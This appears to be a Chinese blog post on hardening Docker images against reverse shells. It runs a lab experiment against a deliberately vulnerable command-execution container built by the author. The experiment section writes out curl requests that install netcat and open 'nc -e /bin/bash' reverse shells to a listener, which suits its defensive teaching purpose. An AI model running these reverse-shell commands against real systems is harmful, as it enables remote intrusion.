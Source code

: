 ```yaml
---
layout: post
title: 从 shell 反弹实现分析 解决 Dockerfile 基础镜像选择及精简
categories: [docker, security]
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell 
---
```


# 从 shell 反弹实现分析 解决 Dockerfile 基础镜像选择及精简

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

```bash
nc -nvlp 4444
```

```bash
# latest
## nc -v 192.168.233.3 4444 -e /bin/bash
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "4444", "-e", "/bin/bash"]
}'
```


### 0x03.2 static 靶机

**攻击机** 准备监听端口 `5555`

```bash
nc -nvlp 5555
```

**漏洞利用**

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "5555", "-e", "/bin/bash"]
}'
```

## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。 

所以， 在管理 Dockerfile 时

1. **选择或制作简单且符合业务需求的镜像**
    + `1. 可被利用的漏洞或方式越少`
    + `2. 镜像更小， 分发更快`
2. 干净整洁的 docker context 环境
3. 合理的命令层级顺序， 以达到更多的 layer 复用。

其他 Dockerfile 使用探究， 可以阅读 
+ [使用 Dockerfile 构建镜像注意事项](https://tangx.in/2019/03/26/how-to-build-a-image-with-dockerfile/)
+ [Dockerfile 中 ARG 的使用与其的作用域探究](https://tangx.in/2020/11/06/dockerfiles-args-scope)
+ [多阶构建](https://tangx.in/2018/10/30/docker-multi-stage-build/)

## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)

